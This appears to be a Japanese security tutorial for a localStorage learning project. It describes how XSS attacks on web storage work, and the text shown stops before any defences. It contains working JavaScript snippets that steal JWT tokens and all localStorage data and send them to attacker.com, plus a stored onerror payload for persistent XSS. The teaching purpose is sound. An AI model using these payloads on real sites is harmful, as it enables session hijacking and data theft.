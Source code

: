 # 🛡️ セキュリティリスクと対策

LocalStorage Playgroundで学習できるWebStorageのセキュリティ脅威と防御策について詳しく解説します。

---

## 🚨 XSSとlocalStorageの組み合わせ攻撃

### 攻撃シナリオ

#### 1. 基本的な攻撃パターン
```javascript
// XSS脆弱性を悪用して、localStorage内のトークンを盗む
<script>
  // JWTトークンの窃取
  const token = localStorage.getItem('jwt_token');
  const userData = localStorage.getItem('user_data');
  
  // 攻撃者のサーバーへ送信
  fetch('https://attacker.com/steal', {
    method: 'POST',
    body: JSON.stringify({ token, userData }),
  });
</script>
```

#### 2. 全データ窃取攻撃
```javascript
// localStorage内の全データを一括で盗む
<script>
  const allData = {};
  for (let i = 0; i < localStorage.length; i++) {
    const key = localStorage.key(i);
    allData[key] = localStorage.getItem(key);
  }
  
  // Base64エンコードして送信
  const img = new Image();
  img.src = `https://attacker.com/collect?data=${btoa(JSON.stringify(allData))}`;
</script>
```

#### 3. 持続的攻撃（Persistent XSS）
```javascript
// localStorageにマルウェアを仕込む
<script>
  // 悪意のあるコードをlocalStorageに保存
  localStorage.setItem('app_config', JSON.stringify({
    apiUrl: 'https://attacker.com/api',
    tracking: '<img src=x onerror="alert(document.cookie)">'
  }));
  
  // アプリケーションがこのデータを信頼して使用すると...
  // 継続的にXSSが発生する
</script>
```
